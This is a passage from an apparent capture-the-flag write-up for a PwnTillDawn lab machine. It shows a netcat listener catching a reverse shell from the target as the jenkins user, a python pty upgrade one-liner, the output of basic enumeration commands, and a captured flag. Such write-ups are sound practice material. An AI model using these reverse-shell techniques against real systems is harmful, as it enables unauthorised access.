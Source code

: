 ![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%204.png)

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.38]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.38] 60808
python3 -c 'import pty;pty.spawn("/bin/bash")'
jenkins@dev1:/$ whoami
whoami
jenkins
jenkins@dev1:/$ id
id
uid=105(jenkins) gid=112(jenkins) groups=112(jenkins)
jenkins@dev1:/$ pwd
pwd
/
jenkins@dev1:/$
```
{: .nolineno}
{: .nolineno}

Now I got the shell so lets go deep →

Got FLAGs on jenkins home directoy inside /users/ directory →

```bash
FLAG69 :dffc1dc67f3d55d2b14227b73b590c4ed09b5113
```
{: .nolineno}
{: .nolineno}
